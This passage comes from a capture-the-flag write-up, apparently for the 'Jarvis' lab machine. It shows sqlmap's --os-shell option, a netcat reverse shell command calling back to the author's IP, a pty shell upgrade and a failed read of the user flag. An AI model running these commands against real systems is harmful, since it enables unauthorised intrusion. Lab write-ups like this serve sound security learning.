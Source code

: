 ![image](https://user-images.githubusercontent.com/87711310/224069775-1e528d17-ddfa-4ed8-b1d1-0646d9d20e8b.png)

I tried this password on `phpmyadmin` page and it worked!!

Instead of using `phpmyadmin` page get a reverse shell, I found out that `sqlmap` also has another cool feature that tries to get a shell on the host running the webserver.

```
sqlmap -v 4 --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0" --os-shell -r request.txt
```

![image](https://user-images.githubusercontent.com/87711310/224072431-c9b6db9e-6378-486b-a8e6-fc1b65bca1e3.png)

And I got back a shell!! Since it wasnt a full reverse shell, I sent back a reverse shell back to my machine using netcat.

Started a netcat listener.

```
nc -lvnp 999
```

I used the following reverse shell command.

```
nc -e /bin/sh 10.10.14.47 9999
```

Ran the above command on netcat and visited the netcat listener.

```
┌──(darshan㉿kali)-[~]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.10.143] 50462
whoami
www-data
```

I got a shell. I decided to upgrade the shell.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I tried grabbing the user flag but I was denied permission

```
www-data@jarvis:/var/www/html$ cd /home
cd /home
www-data@jarvis:/home$ ls
ls
pepper
www-data@jarvis:/home$ cd pepper
cd pepper
www-data@jarvis:/home/pepper$ ls
ls
Web  user.txt
www-data@jarvis:/home/pepper$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
